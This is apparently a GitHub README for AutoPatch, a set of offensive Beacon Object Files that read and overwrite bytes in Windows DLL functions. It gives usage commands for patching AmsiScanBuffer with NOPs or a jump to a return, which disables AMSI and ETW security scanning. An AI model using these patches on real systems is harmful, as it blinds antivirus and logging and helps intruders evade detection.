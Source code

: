 # AutoPatch
A few BOF files to help facilitate reading and writing bytes to DLL function calls. 

Using these BOFs, you should be able to implement your own patches, or a few automatically calculated JMP to C3 patches. 

This is useful for your own AMSI / ETW byte patches, or any other DLL you might want to patch functionality out of.

## read-memory

Usage:

`read-memory dllName functionName startIndex numOfBytesToRead`

For example, to read the first 8 bytes from the AmsiScanBuffer function call:

`read-memory amsi AmsiScanBuffer 0 8`

## write-memory

Usage:

`write-memory dllName functionName startIndex bytesToWrite`

For example, to write \0x90,\0x90,\0x90 to the AmsiScanBuffer function call:

`write-memory amsi AmsiScanBuffer 0 909090`

## autopatch

Usage:

`autopatch dllName functionName numOfBytesToSearch`

For example, to search through 300 bytes from the AmsiScanBuffer function call, looking for a C3 operation to JMP to:

`autopatch amsi AmsiScanBuffer 300`